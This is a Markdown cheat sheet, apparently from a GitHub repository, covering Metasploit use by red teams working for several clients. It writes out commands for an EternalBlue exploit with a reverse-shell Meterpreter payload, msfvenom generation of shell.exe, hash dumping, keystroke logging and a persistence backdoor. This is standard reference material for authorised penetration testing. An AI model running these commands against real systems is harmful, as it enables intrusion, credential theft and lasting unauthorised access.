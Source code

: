 # Metasploit Cheat Sheet (Red Team & Multi-Client Use)

---

## 🚀 Metasploit Basics

### Start Metasploit Console

```bash
msfconsole
```

---

### Search Modules

```bash
search <keyword>
search type:exploit name:windows
```

---

### Use a Module

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

---

### Set Options

```bash
set RHOSTS 10.0.0.5
set LHOST 10.0.0.2
set LPORT 4444
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

---

### Exploit Target

```bash
exploit
# or
run
```

---

### Background a Session

```bash
background
```

---

### List Active Sessions

```bash
sessions -i
```

---

### Interact with a Session

```bash
sessions -i <ID>
```

---

## 📥 Payload Generation

### With msfvenom

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.2 LPORT=4444 -f exe -o shell.exe
```

Formats:
- `exe`, `ps1`, `dll`, `asp`, `raw`, `c`, `elf`, `macho`, etc.

---

## 🛠 Post-Exploitation Commands

Inside a Meterpreter session:

```bash
getuid                     # Current user
sysinfo                   # OS info
ps                        # List processes
shell                     # Drop to system shell
hashdump                  # Dump hashes
migrate <pid>             # Migrate to another process
upload / download         # Move files
keyscan_start / dump      # Keystroke logging
```

---

## 🧠 Persistence & Priv Esc

### Windows Priv Esc Enumeration

```
use post/windows/gather/win_privs
run
```

### Persistence Module

```
use persistence
set LHOST <attacker>
set LPORT <port>
set EXE_NAME backdoor.exe
run
```

---

## 🧬 Multiple Clients / Team Workflow

### Session Naming (for clarity)

```bash
sessions -n 1 client_alpha_web01
sessions -n 2 client_beta_dc01
```

---

### Tags in Notes

```bash
notes -a -t creds -n "admin:password123" -r 1
```
(Adds creds note to session 1)

---

### Workspace per Client

```bash
workspace
workspace add acme_internal
workspace add internal_ops
workspace switch acme_internal
```

Each workspace stores:
- Hosts
- Services
- Loot
- Sessions

---

### Logging Everything

```bash
setg LogLevel 3
spool /path/to/logfile.log
```

---

## 📦 Database Integration

### Initialize PostgreSQL DB

```bash
msfdb init
```

### DB Commands

```
hosts
services
vulns
creds
```

---

## 💡 Tips for Red Teams

- Use **workspaces** for client separation
- Set `setg LHOST` globally for shared payload configs
- Background sessions and automate with `resource` scripts
- Export loot with `loot` and `creds` modules
- Integrate with Cobalt Strike or Covenant for hybrid operations

---

## 🧰 Helpful Modules

| Purpose         | Module Example                             |
|-----------------|---------------------------------------------|
| Exploit         | `exploit/windows/smb/ms17_010_eternalblue` |
| Post Exploit    | `post/windows/gather/enum_logged_on_users` |
| Credential Dump | `post/windows/gather/hashdump`             |
| Persistence     | `post/windows/manage/persistence`          |
| Info Gathering  | `auxiliary/scanner/smb/smb_version`        |

---


